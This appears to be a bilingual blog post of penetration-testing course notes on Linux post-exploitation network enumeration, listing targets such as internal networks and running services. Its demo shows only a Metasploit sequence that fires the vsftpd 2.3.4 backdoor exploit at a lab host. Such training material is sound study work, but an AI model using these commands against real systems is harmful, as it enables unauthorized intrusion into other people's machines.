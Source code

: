 ```yaml
---
layout: post
title: "Enumerating Network Information"
date: "2023-06-13"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student v2
    - Host & Network Penetration Testing
    - Post-Exploitation
---
```


# Linux Local Enumeration
## Enumerating Network Information
What are we looking for?
* Current IP address & network adapter
* Internal networks
* TCP/UDP services running and their respective ports
* Other hosts on the network

## Demo: Enumerating Network Information

# Linux 本地枚举
## 枚举网络信息
我们在寻找什么？

* 当前 IP 地址和网络适配器
* 内部网络
* 正在运行的 TCP/UDP 服务及其相应的端口
* 网络上的其他主机

## 演示：枚举网络信息
Kali Linux : 192.198.70.2

Target IP Address : 192.198.70.3

```
msfconsole
setg RHOSTS 192.198.70.3
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
exploit
```
